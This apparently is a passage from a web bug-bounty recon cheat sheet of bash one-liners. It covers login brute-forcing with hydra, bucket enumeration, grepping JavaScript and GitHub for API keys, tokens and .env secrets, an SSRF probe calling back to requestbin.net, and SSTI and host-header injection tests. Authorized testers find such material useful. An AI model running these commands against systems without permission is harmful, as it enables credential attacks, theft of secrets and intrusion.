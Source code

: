 ## 🔐 22. Login Page Detection + Bruteforce
```bash
katana -list alive.txt -d 3 -jc -fx | grep -Ei "login|signin|admin" > login_pages.txt

hydra -L users.txt -P passwords.txt example.com http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```

## 📦 23. Cloud Storage Misconfig
```bash
s3scanner scan -f subdomains.txt
gcpbucket_enum -l subdomains.txt
```

## 🔎 24. JS Source Code Analysis
```bash
cat js.txt | while read url; do
curl -s "$url" | js-beautify - | grep -Ei 'apikey|token|secret|auth|key'
done
```

## 🧬 25. GitHub Dorking
```bash
python3 GitDorker.py -tf tokens.txt -q "org:example.com filename:.env" -dorks dorks.txt
```

## 🧪 26. API Enumeration
```bash
cat all_urls.txt | grep -Ei "swagger|api-docs|openapi.json" > api_docs.txt
nuclei -list api_docs.txt -t nuclei-templates/http/exposures/apis
```

## ⚙️ 27. SSRF Detection
```bash
cat all_urls.txt | gf ssrf | qsreplace "http://requestbin.net/r/ssrf123" | httpx -silent
```

## 🏹 28. Host Header Injection
```bash
cat alive.txt | nuclei -t http/host-header -c 50
```

## 🗃️ 29. Database Exposure
```bash
cat all_urls.txt | grep -Ei "\.sql$|\.env$|\.db$|\.sqlite$|\.bak$" > leaks.txt
```

## 🧪 30. SSTI / Template Injection
```bash
cat all_urls.txt | gf ssti | qsreplace "{{7*7}}" | httpx -silent
```
